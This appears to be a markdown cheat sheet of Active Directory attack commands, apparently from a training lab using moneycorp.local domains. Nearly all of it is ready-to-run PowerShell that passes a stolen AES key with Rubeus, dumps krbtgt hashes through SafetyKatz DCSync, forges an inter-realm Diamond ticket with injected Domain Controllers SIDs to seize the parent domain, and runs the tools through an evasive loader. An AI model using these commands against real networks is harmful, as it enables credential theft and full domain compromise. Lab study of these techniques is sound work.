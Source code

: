 #### OPtH + Obtain krbtgt hash
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

Obtain Domain Controllers SID of parent domain for interrealm Diamond ticket
```powershell
Get-DomainGroup -Identity "Domain Controllers" -domain moneycorp.local
```

Forge interrealm Diamond ticket using the DC identity 
> **Note:** `/sids` = (Domain Controllers SID), (Enterprise Domain Controllers -  S-1-5-9 )
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Run DCsync on parent domain
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

> **Note:** Can only access resources that were explicitly shared with you

Across external trusts
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

